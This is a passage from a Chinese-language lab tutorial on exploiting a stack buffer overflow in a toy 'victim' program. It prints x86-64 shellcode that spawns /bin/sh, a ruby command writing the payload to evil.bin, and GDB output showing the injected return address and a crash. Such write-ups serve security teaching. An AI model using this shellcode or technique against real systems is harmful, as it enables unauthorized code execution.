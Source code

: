 ``` language-bash
\xeb\x24\x48\x31\xc0\x48\x89\x44\x24\x08\x48\x8b\x3c\x24\x88\x47\x07\x48\x8d\x34\x24\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x48\x31\xff\x0f\x05\xe8\xd7\xff\xff\xff/bin/sh\x90...\x90\xd0\xe3\xff\xff\xff\x7f
```
　　这里千万要注意小端机与大端机的区别，这会影响到地址`0x7fffffffe3d0`的表示，在小端机里，它要通过`\xd0\xe3\xff\xff\xff\x7f`来表示。
　　我们将构造的输入数据保存到文件`evil.bin`中，方便以后使用。继续使用GDB调试，以`evil.bin`文件内容作为输入，运行目标程序，观察攻击是否生效：
``` language-bash
3130104006@hamsa:~/project3$ ruby -e 'print "\xeb\x24\x48\x31\xc0\x48\x89\x44\x24\x08\x48\x8b\x3c\x24\x88\x47\x07\x48\x8d\x34\x24\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x48\x31\xff\x0f\x05\xe8\xd7\xff\xff\xff/bin/sh"+"\x90"*22+"\xd0\xe3\xff\xff\xff\x7f"' > evil.bin
3130104006@hamsa:~/project3$ gdb -q victim
Reading symbols from /home/3130104006/project3/victim...done.
(gdb) b foo
Breakpoint 1 at 0x401170: file victim.c, line 6.
(gdb) r `cat evil.bin`
Starting program: /home/3130104006/project3/victim `cat evil.bin`
#
# ...
#
B+ │0x401170 <foo+12>       mov    -0x48(%rbp),%rdx                          │
   │0x401174 <foo+16>       lea    -0x40(%rbp),%rax                          │
   │0x401178 <foo+20>       mov    %rdx,%rsi                                 │
   │0x40117b <foo+23>       mov    %rax,%rdi                                 │
>  │0x40117e <foo+26>       callq  0x400320                                  │
  >│0x401183 <foo+31>       leaveq # 程序暂时停在这里                        │
   │0x401184 <foo+32>       retq                                             │
   │0x401185 <main>         push   %rbp                                      │
   │0x401186 <main+1>       mov    %rsp,%rbp                                 │
   │0x401189 <main+4>       sub    $0x10,%rsp                                │
   │0x40118d <main+8>       mov    %edi,-0x4(%rbp)                           │
   │0x401190 <main+11>      mov    %rsi,-0x10(%rbp)                          │
   │0x401194 <main+15>      mov    -0x10(%rbp),%rax                          │
   │0x401198 <main+19>      add    $0x8,%rax                                 │
   └─────────────────────────────────────────────────────────────────────────┘
child process 20231 In: foo                           Line: 7    PC: 0x401183
(gdb) x/2gx $rbp
0x7fffffffe3c0: 0x9090909090909090      0x00007fffffffe3d0
(gdb)
```
　　当程序执行完对`strcpy`的调用，停在`0x401183`处时，我们利用`x`命令查看栈数据，发现`%rbp + 8`存放的就是我们之前注入的返回地址`0x7fffffffe3d0`，这说明我们的注入步骤成功啦！于是，小明自信地敲下`c`键，满怀信心地期待着攻击的生效，结果让他一脸懵逼的一幕出现了：
``` language-bash
# 程序跑飞了～～
   ┌─────────────────────────────────────────────────────────────────────────┐
  >│0x7fffffffe3d2  (bad)                                                    │
   │0x7fffffffe3d3  (bad)                                                    │
   │0x7fffffffe3d4  (bad)                                                    │
   │0x7fffffffe3d5  jg     0x7fffffffe3d7                                    │
>  │0x7fffffffe3d7  add    %al,(%rax)                                        │
   │0x7fffffffe3d9  add    %al,(%rax)                                        │
   │0x7fffffffe3db  add    %al,(%rdx)                                        │
   │0x7fffffffe3dd  add    %al,(%rax)                                        │
   │0x7fffffffe3df  add    %al,(%rax)                                        │
   │0x7fffffffe3e1  add    %al,(%rax)                                        │
   │0x7fffffffe3e3  add    %al,(%rax)                                        │
   │0x7fffffffe3e5  add    %al,(%rax)                                        │
   │0x7fffffffe3e7  add    %al,0x40(%rbx,%rdx,1)                             │
   │0x7fffffffe3eb  add    %al,(%rax)                                        │
   └─────────────────────────────────────────────────────────────────────────┘
child process 21114 In:                         Line: ??   PC: 0x7fffffffe3d2
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
```